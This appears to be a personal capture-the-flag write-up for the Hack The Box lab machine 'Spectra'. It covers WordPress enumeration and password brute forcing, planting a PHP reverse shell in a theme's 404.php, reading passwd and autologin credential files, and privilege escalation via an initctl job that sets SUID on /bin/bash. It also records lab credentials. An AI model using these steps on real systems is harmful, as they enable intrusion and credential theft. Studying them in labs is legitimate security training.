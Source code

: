 # Spectra

/etc/hosts spectra.htb

**Port 80** 

1. Jira
``` bash 
curl -s 10.10.10.229 | grep -i "jira" 1>/dev/null && echo "OK"
```

2. WordPress 
``` bash 
curl -s http://spectra.htb/main/ | grep -i "wordpress" 1>/dev/null && echo "OK"
wpscan --url http://spectra.htb/main/ -e u
wpscan --url http://spectra.htb/main/ 
wpscan --url http://spectra.htb/main --passwords ~/Downloads/rockyou.txt --usernames administrator -t 50
```

3. dir
``` bash
wfuzz -c -z file,/opt/node-dirbuster/lists/directory-list-2.3-medium.txt --hc 404 http://spectra.htb/FUZZ
```
administrator : devteam01 (wp)


### dir

> main
*wp*

> testing 
*index-of*

> files 
wp-admin/                                          
wp-content/                                       
wp-includes/                                       
index.php                                          
license.txt                                        
readme.html                                        
wp-activate.php                                    
wp-blog-header.php                                 
wp-comments-post.php                               
wp-config.php                                      
wp-config.php.save
> devtest: devteam01

wp-cron.php                                        
wp-links-opml.php                                  
wp-load.php                                        
wp-login.php                                       
wp-mail.php                                        
wp-settings.php                                    
wp-signup.php                                    
wp-trackback.php                                   
xmlrpc.php 


**PORT 22** 

failed access 


** PORT 3306 ** 


reverse shell - https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

http://spectra.htb/main/wp-content/themes/twentyseventeen/404.php


connect with user devtest no db, failed 

root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash


cat /etc/issue
Developer Console

To return to the browser, press:

  [ Ctrl ] and [ Alt ] and [ <- ]  (F1)

To use this console, developer mode must be enabled.
Doing so will destroy any saved data on the system.

In developer mode, it is possible to
- login and sudo as user 'chronos'
- require a password for sudo and login(*)
- disable power management behavior (screen dimming):
  sudo initctl stop powerd
- install your own operating system image!

* To set a password for 'chronos', run the following as root:

chromeos-setdevpasswd

If you are having trouble booting a self-signed kernel, you may need to
enable USB booting.  To do so, run the following as root:

enable_dev_usb_boot

Have fun and send patches!


**LinPeas**

bash-4.3$ cat /etc/autologin/passwd
cat /etc/autologin/passwd
katie:SummerHereWeCome!!

grupos? 
sudo?

NOPASSWD(initctl)

sudo -u root /sbin/initctl list

vim /etc/init/test.conf 
script 
	chmod +s /bin/bash
end script
